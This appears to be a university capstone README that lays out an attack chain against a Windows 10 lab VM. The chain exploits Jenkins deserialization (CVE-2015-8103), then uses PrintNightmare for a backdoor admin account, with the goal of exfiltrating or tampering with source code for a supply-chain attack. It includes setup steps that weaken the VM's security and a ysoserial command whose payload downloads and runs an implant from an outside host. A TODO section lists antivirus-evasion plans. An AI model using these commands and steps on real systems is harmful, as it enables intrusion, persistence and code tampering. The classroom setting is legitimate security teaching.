 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Persistence        : Use Printer Nightmare (CVE-2021-34527) to create backdoor admin account
- Purpose            : Exfiltrate source/modify source code for supply chain attack

## Setup vulnerable windows VM
- Install Windows 10 VM
- Disable Windows firewall
- Set the following registry values at HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add JAVA_HOME to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payload that downloads an implant from 192.168.187.13:8080 and executes it:
    - `java -jar ysoserial-all.jar CommonsCollections7 "curl 192.168.187.13:8080/implant.exe --output implant.exe && implant.exe" > payload`
- Python exploit script:
    - https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/payload`
    - Might need to run a few times to get the RCE to work
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Obfuscation
    - Virtual instruction based: https://github.com/JonathanSalwan/Tigress_protection/tree/master
    - Loader + decryptor / packing
    - Lots of ideas here: https://book.hacktricks.xyz/windows-hardening/av-bypass
- Remove / comment out debugging print statements
- Max size for file writes is 100 Kb - increase this?
 
